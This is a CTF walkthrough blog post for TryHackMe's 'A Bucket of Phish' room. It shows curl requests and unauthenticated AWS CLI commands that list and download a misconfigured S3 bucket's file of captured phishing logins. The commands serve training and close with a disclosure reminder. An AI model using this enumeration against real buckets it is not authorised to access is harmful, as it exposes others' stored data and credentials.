 ```yaml
---
title: "A Bucket of Phish CTF TryHackMe Walkthrough"
slug: a-bucket-of-phish
layout: post
excerpt_separator:  <!--more-->
categories:
  - ctfs
---
```


![](https://raw.githubusercontent.com/j4ke-exe/j4ke.io/refs/heads/main/assets/media/a-bucket-of-phish-banner.jpeg){: .center-image }

In this TryHackMe CTF challenge, [A Bucket of Phish](https://tryhackme.com/room/hfb1abucketofphish), we’ll go step-by-step through finding and exploiting a misconfigured AWS S3 bucket. The bucket hosts a static version of a CMail login page, and with a bit of investigation, we’re able to dig deeper and ultimately pull a list of compromised users.

<br>
## Step 1: Initial Recon

Target domain:

```bash
http://darkinjector-phish.s3-website-us-west-2.amazonaws.com
```

![](https://raw.githubusercontent.com/j4ke-exe/j4ke.io/refs/heads/main/assets/media/a-bucket-of-phish-cmail.jpeg){: .center-image }

We inspect the website content to understand what kind of application is hosted.

```bash
curl http://darkinjector-phish.s3-website-us-west-2.amazonaws.com
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Cmail Webmail Login</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            background-color: #f4f4f9;
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
        }
        .login-container {
            background-color: white;
            padding: 40px;
            border-radius: 8px;
            box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
            width: 100%;
            max-width: 400px;
        }
        .login-container h1 {
            text-align: center;
            color: #333;
            margin-bottom: 20px;
        }
        .login-container input[type="text"],
        .login-container input[type="password"] {
            width: 100%;
            padding: 12px;
            margin: 10px 0;
            border: 1px solid #ddd;
            border-radius: 4px;
            box-sizing: border-box;
            font-size: 14px;
        }
        .login-container button {
            width: 100%;
            padding: 12px;
            background-color: #4CAF50;
            color: white;
            border: none;
            border-radius: 4px;
            font-size: 16px;
            cursor: pointer;
        }
        .login-container button:hover {
            background-color: #45a049;
        }
        .login-container .footer {
            text-align: center;
            margin-top: 20px;
            font-size: 14px;
            color: #666;
        }
    </style>
</head>
<body>

<div class="login-container">
    <h1>Cmail Login</h1>
    <form action="/login" method="POST">
        <label for="email">Email Address</label>
        <input type="text" id="email" name="email" placeholder="Enter your email" required>

        <label for="password">Password</label>
        <input type="password" id="password" name="password" placeholder="Enter your password" required>

        <button type="submit">Login</button>
    </form>

    <div class="footer">
        <p>Forgot your password? <a href="/reset-password">Reset it here</a></p>
    </div>
</div>

</body>
</html>
```

### Observations:
- The page displays a styled HTML login form for **CMail Webmail**.
- The form action points to `/login`, and there's a password reset link to `/reset-password`.
- However, because this is hosted on **Amazon S3 static website hosting**, it doesn't support dynamic back-end functionality.

```bash
curl http://darkinjector-phish.s3-website-us-west-2.amazonaws.com/reset-password
```

```html
<html>
<head><title>404 Not Found</title></head>
<body>
<h1>404 Not Found</h1>
<ul>
<li>Code: NoSuchKey</li>
<li>Message: The specified key does not exist.</li>
<li>Key: reset-password</li>
<li>RequestId: EN4SKKZ1VKK91P9T</li>
<li>HostId: eGjEBRKU/BUWSzBefb8eYERlkKeG4qeKb0TT3IFWzraJibJsV6oqqt/j5nuCdojgAcTw1TqwGHY=</li>
</ul>
<h3>An Error Occurred While Attempting to Retrieve a Custom Error Document</h3>
<ul>
<li>Code: NoSuchKey</li>
<li>Message: The specified key does not exist.</li>
<li>Key: error.html</li>
</ul>
<hr/>
</body>
</html>
```

<br>

## Step 2: Validate Hosting Type

We verify the type of hosting and server technology by viewing headers:

```bash
curl -I http://darkinjector-phish.s3-website-us-west-2.amazonaws.com
```

```bash
HTTP/1.1 200 OK
x-amz-id-2: y6mmGEQad0NaD02ile8U97LzaR89gBpdoWeLojjLKGEKKauo2+qSGRSewEWQX5JO4c0BZBeZ3/c=
x-amz-request-id: HGSZRZX8MAQCVP1N
Date: Fri, 23 May 2025 20:53:58 GMT
Last-Modified: Mon, 17 Mar 2025 06:25:33 GMT
ETag: "3b392b5fc343b899cc3d67b6ecb2d025"
Content-Type: text/html
Content-Length: 2300
Server: AmazonS3
```

### Response:
```
Server: AmazonS3
```

This confirms the website is served directly from an S3 bucket.

<br>

## Step 3: Enumerate the S3 Bucket

Amazon S3 static websites often use the format:
```
http://<bucket-name>.s3-website-<region>.amazonaws.com
```

From this, we can identify the bucket name:
```
darkinjector-phish
```

We attempt to list contents without authentication (public enumeration).

```bash
aws s3 ls s3://darkinjector-phish --recursive --no-sign-request
```

### Output:
```
2025-05-23 19:58:04     4912 index.html
2025-05-23 20:01:17     1456 captured-logins-093582390
```

<br>

## Step 4: Retrieve the Flag

Download the file titled `captured-logins-093582390`.

```bash
aws s3 cp s3://darkinjector-phish/captured-logins-093582390 ./ --no-sign-request
```

```bash
cat captured-logins-093582390
```

```bash
user,pass
munra@thm.thm,Password123
test@thm.thm,123456
mario@thm.thm,Mario123
flag@thm.thm,THM{REDACTED}
```

<br>

### Notes & Lessons Learned

- Static S3 websites **do not support server-side logic**. Attempting `/login` or `/reset-password` will fail or return 404 errors.
- If the bucket is public, you can **list and download files without authentication** using `--no-sign-request`.
- Always validate headers and structure to determine if the target is an S3 static site.
- This is a **common misconfiguration vulnerability** in cloud storage security.

<br>

### Installation of `awscli`:

**macOS (Homebrew):**
```bash
brew install awscli
```

**Kali Linux / Debian-based:**
```bash
sudo apt update && sudo apt install awscli
```

**Windows PowerShell:**
```powershell
msiexec.exe /i https://awscli.amazonaws.com/AWSCLIV2.msi
```

<br>

## Responsible Disclosure

If you encounter this in the real world outside of a CTF or test environment, **always disclose responsibly** through a coordinated vulnerability disclosure program or the organization’s security contact.
